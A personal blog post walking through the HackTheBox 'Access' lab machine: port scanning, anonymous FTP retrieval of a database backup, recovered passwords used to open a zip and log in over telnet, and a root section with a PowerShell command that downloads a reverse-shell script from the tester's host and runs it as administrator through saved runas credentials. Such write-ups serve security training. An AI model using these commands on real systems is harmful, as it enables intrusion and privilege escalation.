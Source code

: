 ```yaml
---
layout: post
title: "HackTheBox: Access write-up"
date: 2018-11-11
excerpt: "Windows machine with a ftp anonymous connection and a db backup? Not a good idea... And what about runas with Admin? Even worse! "
tags: [Hack The Box, Pentesting, Microsoft Access DB,  Windows,  FTP,  Telnet]
comments: true
feature: https://www.microsoft.com/en-us/microsoft-365/blog/wp-content/uploads/2015/12/Access-FI.png
---
```


# Hack The Box: Access machine write-up

Yet again another Windows machine rooted! This machine was quite tricky for me in the sense that I came across different problems that weren't supposed to be found (like downloading files through FTP without binary mode ON) but in the end I managed to follow the expected path to get the hash. The way to root is first through an anonymous ftp connection from which we obtain some creds to log in through telnet. From there, a simple manual enumeration shows that there are stored credentials and therefore we can run commands as administrator. Let's dig in!

The machine is running on port 10.10.10.98.

### Enumeration

Firstly, I enumerate open ports to discover the services running in the machine (I added access to my ``/etc/hosts`` as access):

```sh
nmap -sV -sC -oA nmap/initial access
```

```console
# Nmap 7.01 scan initiated Sun Nov  4 14:36:32 2018 as: nmap -sV -sC -oA nmap/initial access
Nmap scan report for access (10.10.10.98)
Host is up (0.030s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
|_ftp-anon: ERROR: Script execution failed (use -d to debug)
|_ftp-bounce: no banner
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov  4 14:39:24 2018 -- 1 IP address (1 host up) scanned in 171.78 seconds
```

### Enumeration of the services

#### Web service

We can see three services running so let's check the web service first on port 80.

*Contents of webpage*

![Img](/assets/posts_details/Access/images/website.png "Img")

I ran Dirb and DirBuster however nothing was found and I moved on to the other two services.

#### FTP

So let's check port 21. As it was asking for username I tried to log in anonymously and it worked (``anonymous`` as username and no password). Once in, we can see two directories: ``Backups`` and ``Engineer``. In the first one I find a file called ``backup.mdb`` and in the other ``Access Control.zip``. In order to have a look at them I download them with ```mget filename```.

**However, it is really important to set binary mode, otherwise the .mdb file won't be transferred properly and you won't be able to read it. You can do so by typing** ``binary``.

Having downloaded both files I can see that the zip is password protected, so I'll have to go to the .mdb file. The extension translates to <i>Microsoft Access Database</i>. Then, I  downloaded a tool which will let me see the contents of the database: ``gmdb2``.

To install: ``apt-get install mdbtools-gmdb``.

Then to query the db we just need to run: ``gmdb2 backup.mdb``.

The tool uses a visual interface, so by inspecting the names of the tables we can finally come across an interesting one: ``auth_user``.

*Visual interface of the tool*

![Img](/assets/posts_details/Access/images/visual_interface.png "Img")

*Contents of auth_user table*

![Img](/assets/posts_details/Access/images/auth_user.png "Img")

Now, with those creds I tried to log in to telnet, but no luck. Then I remembered that I still had the zip file, so I tried to open it with the credentials. Yay!

The zip opened with password ``access4u@security``.

Inside there was a file called ``Access Control.pst``. PST files are Microsoft Outlook files, so in order to be able to see the email I tried to [convert](https://www.coolutils.com/online/PST-to-MBOX) it to another format (.eml) and successfully viewed it on my OSX machine:

*Contents of email (.pst file)*

![Img](/assets/posts_details/Access/images/mail.png "Img")

### Telnet

With the new credentials we can log in through telnet: ``security:4Cc3ssC0ntr0ller``. Navigating the system we eventually get the user flag.

*Getting user flag*

![Img](/assets/posts_details/Access/images/user.png "Img")

## Root

Getting to Administrator wasn't too difficult, we just needed to check if we could execute ``runas`` with admin credentials. For that, I ran the command ``cmdkey /list``:

*Discovering that we can runas Administrator*

![Img](/assets/posts_details/Access/images/cmd.png "Img")

With that said, the only thing needed was download a reverse ps script from my local machine and then execute the ``runas`` command with the credentials saved and current environment. The command I used needed to bypass ExecutionPolicy in order to be able to connect back to my reverse shell.

```console
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.175:8001/minRev.ps1','C:\Users\security\rev.ps1')"
```

```console
runas /env /savecred /user:administrator "powershell -ExecutionPolicy ByPass -File rev.ps1"
```

*Reverse shell as Administrator*

![Img](/assets/posts_details/Access/images/root.png "Img")

---
<center><i>Diego Bernal Adelantado</i></center>
